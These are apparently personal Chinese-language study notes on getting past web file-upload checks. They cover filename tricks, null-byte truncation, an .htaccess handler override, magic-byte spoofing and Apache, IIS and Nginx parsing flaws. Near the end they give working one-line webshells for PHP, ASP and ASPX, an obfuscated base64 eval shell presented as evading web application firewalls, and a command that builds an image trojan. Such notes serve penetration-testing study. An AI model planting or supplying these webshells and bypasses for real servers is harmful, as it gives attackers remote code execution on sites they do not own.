 # 文件上传 笔记

## 常规bypass

绕JS,Server MIME Check：抓包  
绕服务器扩展名检测：大小写，名单疏忽，特殊文件名，0x00，.htaccess文件攻击
绕文件内容检测

### 特殊文件名

1. 上传不符合windows文件命名规则的文件名

```txt
　　test.asp.
　　test.asp(空格)
　　test.php:1.jpg
　　test.php::$DATA
　　shell.php::$DATA…….
```

会被windows系统自动去掉不符合规则符号后面的内容。

2. linux下后缀名大小写
   在linux下，如果上传php不被解析，可以试试上传pHp后缀的文件名。

### 0x00绕过

Name = getname(http requests)//假如这一步获取到的文件名是dama.asp .jpg  
Type = gettype(name)//而在该函数中，是从后往前扫描文件扩展名，所以判断为jpg文件  
If(type == jpg)  
SaveFileToPath(UploadPath.name , name)//但在这里却是以0x00作为文件名截断，最后以dama.asp存入路径里  

### .htaccess

该文件仅在Apache平台上存在，IIS平台上不存在该文件，该文件默认开启，启用和关闭在httpd.conf文件中配置。该文件的写法如下:

```xml
<FilesMatch "_php.gif">  
 SetHandler application/x-httpd-php  
</FilesMatch>  
```

保存为.htaccess文件。该文件的意思是，只要遇到文件名中包含有”_php.gif”字符串的，统一按照php文件来执行。该文件在Apache里默认是启用的，然后就可以上传一个带一句话木马的文件，例如a_php.gif，会被当成php执行。

### 文件内容检测

1. 文件幻数检测：  

> JPG ： FF D8 FF E0 00 10 4A 46 49 46  
> GIF ： 47 49 46 38 39 61 (GIF89a)  
> PNG： 89 50 4E 47  

绕过方法：  
在文件幻数后面加上自己的一句话木马就行了。  

2. 文件相关信息检测：

一般就是检查图片文件的大小，图片文件的尺寸之类的信息。  
绕过方法：  
伪造好文件幻数，在后面添加一句话木马之后，再添加一些其他的内容，增大文件的大小。  

3. 文件加载检测：

一般是调用API或者函数去进行文件加载测试，常见的是图像渲染测试，再变态一点的甚至是进行二次渲染。  
绕过方法：  
针对渲染加载测试：代码注入绕过  
针对二次渲染测试：攻击文件加载器  
通常，对于文件内容检查的绕过，就是直接用一个结构完整的文件进行恶意代码注入即可。

## WebServer解析漏洞

[学习链接](https://thief.one/2016/09/21/%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E/)

### Apache解析漏洞

一个文件名为xxx.x1.x2.x3的文件（例如：index.php.fuck）， Apache会从x3的位置往x1的位置开始尝试解析，如果x3不属于Apache能解析的扩展名，那么Apache会尝试去解析x2的位置，这样一直往前尝试，直到遇到一个能解析的扩展名为止。

### IIS解析漏洞

#### IIS6.0

1. 文件类型
   正常：www.xxx.com/logo.jpg  
   触发漏洞：www.xxx.com/logo.asp;.jpg  
   按照Ⅰ来访问logo.jpg，文件会被当成是jpg图片来解析，想办法，能够按照Ⅱ来访问logo.jpg，文件就会被当成asp文件来处理。（如果IIS支持PHP，那么logo.php;.jpg也会被当成PHP文件执行）  

2. 文件夹类型
   正常：www.xxx.com/image/logo.jpg  
   触发漏洞：www.xxx.com/image.asp/logo.jpg  
   按照Ⅰ来访问logo.jpg，文件会被当成是jpg图片来解析，想办法，能够按照Ⅱ来访问logo.jpg，文件就会被当成asp文件来处理。（如果IIS支持PHP，那么image.php文件夹下的文件也会被当做PHP文件解析。）  

#### IIS7.0以上

IIS7.0/7.5是对php解析时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL后面追加上字符串”/任意文件名.php”就会按照php的方式去解析。（例如：webshell.jpg/x.php）  
IIS7.0(Win2008R1+IIS7.0)  
IIS7.5(Win2008R2+IIS7.5)  
IIS的解析漏洞不像Apache那么模糊，针对IIS6.0，只要文件名不被重命名基本都能搞定。这里要注意一点，对于”任意文件名/任意文件名.php”这个漏洞其实是出现自php-cgi 的漏洞， 所以其实跟IIS自身是无关的。  

#### Nginx解析漏洞

目前Nginx主要有这两种漏洞：
a.一个是对任意文件名，在后面添加”/任意文件名.php”的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php进行解析攻击。
b.低版本的Nginx可以在任意文件名后面添加%00.php进行解析攻击。
Nginx0.5.
Nginx0.6.
Nginx0.7. <= 0.7.65
Nginx0.8. <= 0.8.37
对于”任意文件名/任意文件名.php”这个漏洞其实是出现自php-cgi的漏洞，所以其实跟Nginx自身是无关的。

## 一句话

php  
`<?php @eval($_POST[‘lzx’]);?>`  
`<?php  $a = "a"."s"."s"."e"."r"."t";$a($_POST[cc]);?>`  
asp  
`<% eval request(“lzx”)%>`  
aspx  
`<%@ Page Language="Jscript"%><%eval(Request.Item["lzx"],"unsafe");%>`  
过狗

```php
<?php 
  $mt="JF9QT1N"; 
  $ojj="QGV2YWwo";
  $hsa="UWydpMGle";
  $fnx="5BeSleleddKTs=";
  $zk = str_replace("d","","sdtdrd_redpdldadcde");
  $ef = $zk("z", "", "zbazsze64_zdzeczodze");  
  $dva = $zk("p","","pcprpepaptpe_fpupnpcptpipopn");
  $zvm = $dva('', $ef($zk("le", "", $ojj.$mt.$hsa.$fnx)));
  $zvm();
?>
```

## 图片木马

```shell
copy /b uplode.jpg+shell.php
```
